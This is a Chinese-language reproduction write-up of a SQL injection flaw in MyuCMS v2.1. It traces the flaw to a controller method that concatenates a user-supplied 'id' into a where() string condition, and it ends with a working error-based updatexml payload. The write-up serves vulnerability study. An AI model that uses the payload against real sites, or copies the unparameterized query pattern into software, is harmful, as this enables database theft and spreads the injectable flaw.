 MyuCMS v2.1 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

在 CNVD 上的描述为，**MyuCMS us\**\*\_xi\**\*.html页面存在SQL注入漏洞**

通过对整个项目文件的搜索，最终确定为 **user\_xiaoxi.html** 文件。

该视图文件，对应的控制器为 **application/bbs/controller/User.php**
。显示消息为 **User-\>xiaoxi()**
方法。该方法中无用户可控参数。所以注入不可能在此方法中。

![1.jpg](./.resource/MyuCMSv2.1sql注入漏洞/media/rId24.jpg)

如图所示功能处可将未读消息更改为已读消息。同时我们抓包观察。未读消息为其他用户在登录用户发布的文章下留言所产生。

![2.jpg](./.resource/MyuCMSv2.1sql注入漏洞/media/rId25.jpg)

可以发现，该功能对应的路由地址，以及所提交的参数。我们找到路由地址对应的方法为
**User-\>xiaoxidel()** 代码如下

    public function xiaoxidel($ids)
        {
            if (!session('userid') || !session('username')) { // 进行登录判断
                $this->error('亲！请登录',url('bbs/login/index'));
            } else {
                if ($ids==0) { // 根据 ids 参数来判断执行的动作为标记消息还是删除消息
                $id = input('id'); // 通过input助手函数获取需要操作的消息对应的 id
                $data['open'] = 1;
                if (Db::name('xiaoxi')->where("id = {$id}")->where('userid', session('userid'))->update($data)) { // 此处第一个 where() 使用字符串条件时没有配合预处理机制，所以会直接将 id=$id 拼接到SQL语句中。从而造成了SQL语句可控，形成注入。此处可以进行DEBUG，看到最好的SQL语句是如何拼接的。
                    return json(array('code' => 200, 'msg' => '标记已读成功'));
                } else {
                    return json(array('code' => 0, 'msg' => '标记已读失败'));
                }
                }elseif ($ids==1){
                $id = input('id');
                if (Db::name('xiaoxi')->where("id = {$id}")->where('userid', session('userid'))->delete($id)) {
                    return json(array('code' => 200, 'msg' => '彻底删除成功'));
                } else {
                    return json(array('code' => 0, 'msg' => '彻底删除失败'));
                }
                }
            }
        }

上述代码中，**where()**
方法使用字符串条件，但并没有执行预编译。其实针对字符串条件，官方手册是做了说明的，显然这里没有遵守官方手册的意见，所以造成了SQL注入。

![3.png](./.resource/MyuCMSv2.1sql注入漏洞/media/rId26.png)

### Payload

Payload如下

    Payload: id=2) and updatexml(1,concat(0x7e,(select database()),0x7e),1)  and (1

在下图所示位置打上断点，即可查执行的SQL语句

![4.jpg](./.resource/MyuCMSv2.1sql注入漏洞/media/rId28.jpg)

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
